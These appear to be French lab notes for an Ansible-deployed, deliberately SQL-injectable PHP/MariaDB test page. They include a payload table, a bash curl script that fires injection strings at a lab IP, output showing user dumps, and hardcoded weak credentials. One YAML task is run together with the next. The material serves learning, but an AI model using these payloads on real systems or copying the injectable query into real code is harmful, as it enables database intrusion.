




# Debug 


* Optionnel : penser à ouvrir le port ssh :)))

```bash
sudo apt install openssh-server -y
sudo systemctl enable ssh
sudo systemctl start ssh
sudo systemctl status ssh
sudo systemctl status apache2.service
sudo journalctl -xeu apache2.service

sudo nano /etc/apache2/ports.conf
port 8083

sudo myvsql
ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'root';
FLUSH PRIVILEGES;
EXIT;

```

Voici l'infra recherchée, on reprendra une bonne partie de ce qui a déjà été fait  :

```plaintext
ansible-sqli-simple/
├── inventory.ini
├── playbook.yml
├── files/
│   ├── index.php
│   └── jail.local

```

	
vim **`inventory.ini`** :

```ini
[lab]
labhost ansible_host=192.168.160.130 ansible_user=ton_user ansible_ssh_pass=ton_mot_de_passe
```

Ces lignes sont importantes :
* Après du debug, j'ai compris qu'il fallait initialisé la connexion dans .ini (ce qui paraît logique)


Le **`playbook.yml`** : 


```yaml
- name: Deploy SQLi lab + fail2ban
  hosts: lab
  become: true

  tasks:
    - name: Install packages
      apt:
        name:
          - apache2
          - php
          - libapache2-mod-php
          - php-mysql
          - mariadb-server
          - fail2ban
        state: present
        update_cache: true

    - name: Start services
      service:
        name: "{{ item }}"
        state: started
        enabled: true
      loop:
        - apache2
        - mariadb
        - fail2ban

    - name: Create test database
      community.mysql.mysql_db:
        name: test
        state: present
        login_user: root
        login_unix_socket: /run/mysqld/mysqld.sock
        login_host: localhost

    - name: Create application MySQL user
      community.mysql.mysql_user:
        name: sqli
        password: sqli123
        priv: 'test.*:ALL'
        host: localhost
        state: present
        login_unix_socket: /run/mysqld/mysqld.sock

    - name: Create users table
      community.mysql.mysql_query:
        login_user: sqli
        login_password: "sqli123"
        login_host: localhost
        query: |
          CREATE TABLE IF NOT EXISTS test.users (
            id INT AUTO_INCREMENT PRIMARY KEY,
            username VARCHAR(50),
            password VARCHAR(50)
          );

    - name: Insert users into table
      community.mysql.mysql_query:
        login_user: sqli
        login_password: "sqli123"
        login_host: localhost
        query: |
          INSERT INTO test.users (username, password)
          VALUES ('admin', 'admin123'), ('user', '123456');    - name: Deploy vulnerable index.php
      copy:
        src: files/index.php
        dest: /var/www/html/index.php
        mode: '0644'

    - name: Configure fail2ban for Apache
      copy:
        src: files/jail.local
        dest: /etc/fail2ban/jail.local
        mode: '0644'
      notify: Restart fail2ban

  handlers:
    - name: Restart fail2ban
      service:
        name: fail2ban
        state: restarted


```

Créer un file `files/index.php` : 

```php
<?php
$conn = new mysqli("localhost", "root", "", "test");

if (isset($_GET['id'])) {
    $id = $_GET['id'];
    $res = $conn->query("SELECT * FROM users WHERE id = '$id'");
    while ($row = $res->fetch_assoc()) {
        echo "Username: " . $row["username"] . "<br>";
    }
}
?>
```

Créer un file **`files/jail.local`**

```bash
[apache-auth]
enabled = true
port = http,https
logpath = /var/log/apache2/error.log
maxretry = 5
bantime = 600
findtime = 300
```

Commandes à lancer : 

```bash
cd ansible-sqli-simple
ansible-playbook -i inventory.ini playbook.yml
```

Premier build : OK



# Tests offensifs

Activer le module : 

```bash
sudo a2enmod php8.4 
sudo systemctl restart apache2
```

Associer php à apache **`sudo nano /etc/apache2/sites-enabled/000-default.conf`** :

```bash
<VirtualHost *:8083>
    DocumentRoot /var/www/html
    <Directory /var/www/html>
        Options Indexes FollowSymLinks
        AllowOverride All
        Require all granted
    </Directory>

    <FilesMatch \.php$>
        SetHandler application/x-httpd-php
    </FilesMatch>
</VirtualHost>
```

Tester si la page réponds : 

```bash
http://localhost:8083
```



Test injection énumération (présente un faille visible si l'attaquant trouve la page) :

```bash
echo "<?php phpinfo(); ?>" | sudo tee /var/www/html/test.php
http://localhost:8083/test.php
```



Premiers tests de connexion admin (ce qui est légal) :

```sql
	http://localhost:8083/index.php?username=admin
```

Rien, on va modifier files/l'index.php

```php
<?php
// Affiche toutes les erreurs PHP
error_reporting(E_ALL);
ini_set('display_errors', 1);

// Connexion à MariaDB
$servername = "localhost";
$username = "sqli";
$password = "sqli123";
$dbname = "test";

$conn = new mysqli($servername, $username, $password, $dbname);

// Vérifier la connexion
if ($conn->connect_error) {
    die("Connexion échouée : " . $conn->connect_error);
}

// Lire le paramètre "username" dans l'URL
if (isset($_GET['username'])) {
    $user = $_GET['username'];

    // ATTENTION : cette requête est volontairement vulnérable à l'injection SQL !
    $sql = "SELECT id, username FROM users WHERE username = '$user'";
    $result = $conn->query($sql);

    if ($result && $result->num_rows > 0) {
        while($row = $result->fetch_assoc()) {
            echo "ID: " . htmlspecialchars($row["id"]) . " - Username: " . htmlspecialchars($row["username"]) . "<br>";
        }
    } else {
        echo "Aucun utilisateur trouvé.";
    }
} else {
    echo "Utilisez ?username=admin dans l'URL pour tester.";
}

$conn->close();
?>

```

Maintenant : 



# Attaques SQLI

| Payloads                                     | Effets                                         |
| -------------------------------------------- | ---------------------------------------------- |
| ' OR 1=1 --                                  | bypass login                                   |
| admin' --                                    | Ignore tout ce qui suit (-- = commentaire)     |
| ' UNION SELECT 1,2,3 --                      | Test si UNION est autorisé (injection avancée) |
| ' AND (SELECT 1 FROM dual WHERE SLEEP(5)) -- | Si réponse lente ➔ vulnérable Time-Based       |
**`vim script_sql.sh`** : 

```bash
#!/bin/bash

# URL de la cible (modifie-la si besoin)
TARGET="http://192.168.160.130:8083/index.php"

# Liste de payloads à tester
PAYLOADS=(
    "admin' OR 1=1 --"
    "admin'--"
    "' OR '1'='1' --"
    "admin' UNION SELECT 1,2,3 --"
    "admin' AND SLEEP(5) --"
    "' OR EXISTS(SELECT * FROM users) --"
    "admin' OR '1'='1' #"
    "admin' OR 'a'='a' --"
    "' OR ''='"
)

echo "[*] Démarrage du test d'injections SQL..."

for payload in "${PAYLOADS[@]}"; do
    # Encodage du payload pour l'URL (très important)
    encoded_payload=$(printf "%s" "$payload" | jq -s -R -r @uri)
    
    echo -e "\n[+] Test du payload : $payload"
    echo "[+] URL : $TARGET?username=$encoded_payload"

    # Envoi de la requête HTTP
    curl -s "$TARGET?username=$encoded_payload" | grep -iE "ID|Username|Utilisateur|user" || echo "[-] Aucun résultat visible."
done

echo -e "\n[*] Fini."


```

Installer dépendances : 
**`sudo apt install jq bc`**


| Type d'attaque              | Exemple d'URL                                                                                                      | Effet                                     |
| --------------------------- | ------------------------------------------------------------------------------------------------------------------ | ----------------------------------------- |
| **Bypass Authentification** | `http://192.168.160.130:8083/index.php?username=admin'--`                                                          | Ignore mot de passe                       |
| **Always True**             | `http://192.168.160.130:8083/index.php?username=admin' OR 1=1 --`                                                  | Retourne tous les utilisateurs            |
| **Time-Based**              | `http://192.168.160.130:8083/index.php?username=admin' AND SLEEP(5) --`                                            | Injection temporelle                      |
| **Union-Based**             | `http://192.168.160.130:8083/index.php?username=admin' UNION SELECT 1,2,3 --`                                      | Injection UNION pour lire d'autres tables |
| **Error-Based**             | `http://192.168.160.130:8083/index.php?username=admin' AND (SELECT 1 FROM (SELECT SLEEP(5))a) --`                  | Détecte erreurs SQL visibles              |
| **Boolean-Based**           | `http://192.168.160.130:8083/index.php?username=admin' AND 1=2 --`                                                 | Injection basée sur vrai/faux             |
| **Subquery Injection**      | `http://192.168.160.130:8083/index.php?username=admin' OR (SELECT COUNT(*) FROM information_schema.tables) > 0 --` | Récupération d'infos internes             |
 Ce qui donne les résultats : 
```bash
└─$ ./attck.sh 
[*] Démarrage du test d'injections SQL...

[+] Test du payload : admin' OR 1=1 --
[+] URL : http://192.168.160.130:8083/index.php?username=admin%27%20OR%201%3D1%20--
[-] Aucun résultat visible.

[+] Test du payload : admin'--
[+] URL : http://192.168.160.130:8083/index.php?username=admin%27--
[-] Aucun résultat visible.

[+] Test du payload : ' OR '1'='1' --
[+] URL : http://192.168.160.130:8083/index.php?username=%27%20OR%20%271%27%3D%271%27%20--
[-] Aucun résultat visible.

[+] Test du payload : admin' UNION SELECT 1,2,3 --
[+] URL : http://192.168.160.130:8083/index.php?username=admin%27%20UNION%20SELECT%201%2C2%2C3%20--
[-] Aucun résultat visible.

[+] Test du payload : admin' AND SLEEP(5) --
[+] URL : http://192.168.160.130:8083/index.php?username=admin%27%20AND%20SLEEP%285%29%20--
[-] Aucun résultat visible.

[+] Test du payload : ' OR EXISTS(SELECT * FROM users) --
[+] URL : http://192.168.160.130:8083/index.php?username=%27%20OR%20EXISTS%28SELECT%20%2A%20FROM%20users%29%20--
[-] Aucun résultat visible.

[+] Test du payload : admin' OR '1'='1' #
[+] URL : http://192.168.160.130:8083/index.php?username=admin%27%20OR%20%271%27%3D%271%27%20%23
ID: 1 - Username: admin<br>ID: 2 - Username: user<br>ID: 3 - Username: admin<br>ID: 4 - Username: user<br>ID: 5 - Username: admin<br>ID: 6 - Username: user<br>ID: 7 - Username: admin<br>ID: 8 - Username: user<br>ID: 9 - Username: admin<br>ID: 10 - Username: user<br>ID: 11 - Username: admin<br>ID: 12 - Username: user<br>

[+] Test du payload : admin' OR 'a'='a' --
[+] URL : http://192.168.160.130:8083/index.php?username=admin%27%20OR%20%27a%27%3D%27a%27%20--
[-] Aucun résultat visible.

[+] Test du payload : ' OR ''='
[+] URL : http://192.168.160.130:8083/index.php?username=%27%20OR%20%27%27%3D%27
ID: 1 - Username: admin<br>ID: 2 - Username: user<br>ID: 3 - Username: admin<br>ID: 4 - Username: user<br>ID: 5 - Username: admin<br>ID: 6 - Username: user<br>ID: 7 - Username: admin<br>ID: 8 - Username: user<br>ID: 9 - Username: admin<br>ID: 10 - Username: user<br>ID: 11 - Username: admin<br>ID: 12 - Username: user<br>

[*] Fini.

```

Ce qu'il faut retenir ! 
L'attaque 1 = 1 always true à réussie et à affichée tous les utilisateurs 
L'attaque ' OR ''=' sur le même principe, à savoir always trues à réussie


[Maintenant correction des problèmes](fix.md)